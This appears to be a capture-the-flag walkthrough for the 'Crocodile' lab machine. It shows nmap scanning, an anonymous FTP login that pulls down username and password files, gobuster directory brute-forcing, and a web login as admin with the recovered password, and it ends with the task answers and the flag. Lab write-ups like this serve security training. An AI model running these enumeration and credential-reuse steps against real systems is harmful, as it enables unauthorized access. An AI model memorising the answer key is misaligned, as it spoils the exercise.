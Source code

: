 Machine name: Crocodile
Kali IP: 10.10.14.58
Target IP: 10.129.1.15

Task 1: What Nmap scanning switch employs the use of default scripts during a scan?

- -sC

Task 2: What service version is found to be running on port 21?

- We need to scan the ports to understand what is avaialble on port 21
- We were given the hint to us -sC flag for all scripts

```bash ─[us-starting-point-vip-1-dhcp]─[10.10.14.58]─[hbruinsma@htb-rugyfugin2]─[~]
└──╼ [★]$ nmap -sC -p21 -T4 10.129.1.15
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-19 00:09 CDT
Nmap scan report for 10.129.1.15
Host is up (0.24s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.58
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd

Nmap done: 1 IP address (1 host up) scanned in 3.33 seconds
```

Answer: vsFTPd 3.0.3

Task 3: What FTP code is returned to us for the "Anonymous FTP login allowed" message?

- When we performed the nmap scan the -sC script scan tried anonymous login for us already

```bash
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

Answer: 230

Task 4: After connecting to the FTP server using the ftp client, what username do we provide when prompted to log in anonymously?

- Anonymous

Task 5: After connecting to the FTP server anonymously, what command can we use to download the files we find on the FTP server?

- Now we must connect using the ftp service

```bash
─[us-starting-point-vip-1-dhcp]─[10.10.14.58]─[hbruinsma@htb-rugyfugin2]─[~]
└──╼ [★]$ ftp 10.129.1.15
Connected to 10.129.1.15.
220 (vsFTPd 3.0.3)
Name (10.129.1.15:root): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

- Now we are logged in
- We can download the files using the get command
- First we want to view the files that exist using "ls"

```bash
ftp> ls
229 Entering Extended Passive Mode (|||42511|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
```

- We can see there are so useful files including allowed.userlist and some passwords, we probably want both of those, lets use the "get" command

```bash
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||41731|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |***********************************|    33       15.20 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.12 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||42461|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |***********************************|    62        9.27 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.24 KiB/s)
ftp> exit
221 Goodbye.
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.58]─[hbruinsma@htb-rugyfugin2]─[~]
└──╼ [★]$ ls
allowed.userlist         cacert.der  Documents  Music    Pictures  Templates
allowed.userlist.passwd  Desktop     Downloads  my_data  Public    Videos
```

Answer: get

Task 6: What is one of the higher-privilege sounding usernames in 'allowed.userlist' that we download from the FTP server?

- We must view the usernames and passwords now using our "cat" command

```bash
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.58]─[hbruinsma@htb-rugyfugin2]─[~]
└──╼ [★]$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.58]─[hbruinsma@htb-rugyfugin2]─[~]
└──╼ [★]$ cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

Answer: admin

Task 7: What version of Apache HTTP Server is running on the target host?

- This task implies there is a web server running on port 80, lets enumerate using nmap

```bash
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.58]─[hbruinsma@htb-rugyfugin2]─[~]
└──╼ [★]$ nmap -sV -sC -p80,443 10.129.1.15
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-19 00:26 CDT
Nmap scan report for 10.129.1.15
Host is up (0.24s latency).

PORT    STATE  SERVICE VERSION
80/tcp  open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.00 seconds
```

- We can see there is a webservice running on port 80
- We can see the version of apache is 2.4.41
  Answer: Apache httpd 2.4.41

Task 8: What switch can we use with Gobuster to specify we are looking for specific filetypes?

- This implies we must enumerate the web service using gobuster
- We must use the "-x" switch to specify the filetypes we are looking for
  Answer: -x

Task 9: Which PHP file can we identify with directory brute force that will provide the opportunity to authenticate to the web service?

- This tells us we need to look for a php file so for the -x flag we put "php" afterwards
- gobuster dir -u http://10.129.1.15 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 50
- dir = directory search
- -u = url
- -w = wordlist
- -x = filetypes
- -t = threads (speed)
  Answer: login.php

Final task - submit flags:

- This implied we have everything we need to know in order to grab the flags
- We have credentials (task 6)
  - admin
  - rKXM59ESxesUFHAd
- We have a login location (task 9)
  - http://10.129.1.15/login.php
- Lets login at that website, open firefox and navigate to http://10.129.1.15/login.php
- We managed to login using the admin credentials we discovered from the ftp anonymous login and the flag is displayed there for us to grab
  Answer: c7110277ac44d78b6a9fff2232434d16
